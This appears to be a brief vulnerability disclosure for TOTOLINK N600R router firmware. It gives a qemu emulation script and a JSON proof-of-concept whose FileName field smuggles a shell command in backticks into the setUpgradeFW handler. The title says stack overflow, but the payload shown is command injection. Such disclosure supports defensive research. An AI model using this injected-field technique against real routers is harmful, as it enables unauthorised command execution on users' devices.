 ﻿# TOTOLINK_N600R_V4.3.0cu.7866_B20220506-stack overflow

## File information

[](https://github.com/Luanruy/qax#file-information)

TOTOLINK_N600R_V4.3.0cu.7866_B20220506.web Unzipped cstecgi.cgi Download address:  [https://totolink.tw/support_view/N600R](https://totolink.tw/support_view/N600R)

## injection point 0x41767c

in function FUN_00416bd4, there is a similar bug.
### Simulate running in qemu
```bash
#!/bin/bash
sudo  chroot  ./  ./qemu-mips-static\
-E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
./web_cste/cgi-bin/cstecgi_41c8dc.cgi  <  ./poke/41767c_poc.json
```
### json
```json
{

	"topicurl" : "UploadCustomModule/setUpgradeFW",
	"flags" : "true",
	"FileName" : "ll`ls>41767c.txt`aa",
	"ContentLength" : "990",
	"headOffset" : "36"
}
```
### Operation Results
![enter image description here](https://i.miji.bid/2025/05/07/703a072616f49c6fa3e67d1317702a6c.png)



